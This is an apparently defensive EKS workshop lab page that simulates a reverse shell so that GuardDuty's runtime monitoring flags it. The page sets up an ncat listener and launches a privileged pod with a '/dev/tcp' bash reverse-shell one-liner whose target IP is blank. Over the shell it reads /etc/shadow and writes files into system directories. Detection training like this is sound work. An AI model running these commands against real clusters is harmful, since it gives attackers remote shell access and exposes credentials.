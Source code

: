 ```yaml
---
title: "Reverse Shell"
sidebar_position: 142
---
```


In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following commands.

```bash
$ export RSHELL_SUBNET=$(aws ec2 describe-subnets --query 'Subnets[0].SubnetId' --filters "Name=tag:Name,Values=*SubnetPrivate*" --output text)
$ export RSHELL_IDE=$(aws cloud9 create-environment-ec2 --name reverse-shell --instance-type t2.micro --connection-type CONNECT_SSM --subnet-id $RSHELL_SUBNET --query 'environmentId' --output text)
$ sleep 60
$ export RSHELL_SG=$(aws cloudformation describe-stack-resource --stack-name aws-cloud9-rshell-$RSHELL_IDE --logical-resource-id InstanceSecurityGroup --query 'StackResourceDetail.PhysicalResourceId')
$ aws ec2 authorize-security-group-ingress --group-id $RSHELL_SG --protocol all --port 6666 --cidr 10.42.0.0/16
```

Open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged reverse-shell -- /bin/bash -c "bash -i >& /dev/tcp//6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

Return to the `rshell` IDE, and you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
$ cat /etc/shadow
$ chroot /
$ touch /etc/dangerousfile
$ mkdir /bin/dangerousfolder
$ ls /etc/danger*
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` / `CMD+C`, or type `exit` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.

On the `rshell` Cloud9 IDE.

```bash
$ exit

```

On the `eks-workshop-ide` Cloud9 IDE, you'll see the following message.

```bash
pod "reverse-shell" deleted
```

If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.

![](assets/reverse-shell.png)


To clean up, delete the `reverse-shell` Cloud9 IDE environment, on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
$ aws cloudformation list-stacks --stack-status-filter CREATE_COMPLETE --query 'StackSummaries[].StackName' | awk -F , '/rshell/ {print $1}' | xargs aws cloudformation delete-stack --stack-name
```